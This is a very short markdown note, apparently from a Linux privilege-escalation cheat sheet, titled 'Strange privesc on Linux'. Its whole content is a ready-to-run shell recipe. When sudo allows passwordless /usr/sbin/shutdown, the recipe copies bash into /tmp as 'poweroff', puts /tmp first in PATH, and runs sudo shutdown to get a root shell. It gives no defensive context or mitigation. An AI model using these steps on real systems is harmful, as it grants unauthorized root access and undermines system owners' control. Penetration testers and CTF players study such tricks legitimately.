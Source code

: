 ```yaml
---
title: Strange privesc on Linux 🍄
---
```


- `(root) NOPASSWD: /usr/sbin/shutdown`. Do the following:

```shell
cp /bin/bash /tmp/poweroff
chmod +x /tmp/poweroff
export PATH=/tmp:$PATH
sudo /usr/sbin/shutdown
#now you are root
```
